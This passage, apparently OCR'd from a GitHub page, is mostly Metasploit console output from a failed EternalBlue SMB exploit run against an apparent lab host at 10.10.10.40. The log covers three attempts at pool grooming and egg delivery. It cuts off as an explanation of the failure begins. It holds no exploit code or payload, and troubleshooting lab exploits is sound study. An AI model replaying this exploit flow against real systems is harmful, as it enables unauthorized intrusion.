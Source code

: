 [*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 22 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.
```
Some of the reasons for above failure can be-

```